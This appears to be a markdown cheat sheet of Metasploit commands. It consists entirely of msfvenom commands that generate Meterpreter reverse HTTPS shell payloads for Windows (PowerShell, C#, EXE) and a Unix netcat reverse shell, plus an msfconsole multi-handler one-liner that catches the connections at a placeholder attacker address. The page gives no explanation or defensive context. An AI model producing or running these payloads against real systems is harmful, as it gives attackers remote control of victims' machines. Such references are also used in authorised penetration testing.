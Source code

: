 
# Windows
## PowerShell

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f ps1
```

### Csharp

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f csharp
```

### EXE

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe > shell.exe
```

## Multi-Handler

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST x.x.x.x;set LPORT 443;run;"
```
# Linux

### Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=x.x.x.x lport=443
```

